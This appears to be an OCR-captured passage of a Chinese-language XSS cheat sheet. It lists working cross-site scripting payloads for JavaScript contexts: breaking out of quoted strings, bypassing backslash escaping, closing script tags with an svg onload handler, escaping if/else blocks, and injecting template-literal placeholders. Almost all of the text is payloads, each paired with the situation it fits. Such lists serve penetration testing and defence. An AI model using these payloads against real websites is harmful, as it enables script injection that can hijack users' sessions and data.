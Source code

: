 **当输入在`<script>`中，且位于字符串分隔符(' ")的值内时使用 **

```
'-alert(1)-'
'/alert(1)//
```



## Javascript注入 - 绕过

**当输入在`<script>`中，且位于字符串分隔符(' ")内，但引号被反斜杠转义时使用**

```
\'/alert(1)/
```



## Javascript注入 - script

**输入落在`<script>`中的任意位置使用**

```
</script><svg onload=alert(1)>
```



## Javascript注入 - 逻辑块

**输入落在`<script>`代码块中，且位于字符串分隔(' ")的值内，并处于单个逻辑块（if，else，etc）中时，使用第一个或第二个payload。如果引号被反斜杠转义，则使用第三个payload**

```
'}alert(1);{'
'}alert(1)%0A{'
\'}alert(1);{//
```



## Javascript注入 - 无引号

**当同一行Javascript代码中存在多重反射时使用。第一个payload用在简单的Javascript变量，第二个适用在非嵌套的Javascript对象**

```
/alert(1)//\
/alert(1)}//\
```



## Javascript上下文 - 模板字符串中的占位符注入

**输入落在反引号(~)分隔的字符串中或在模板引擎中时，使用占位符注入技术**

```
${alert(1)}
```
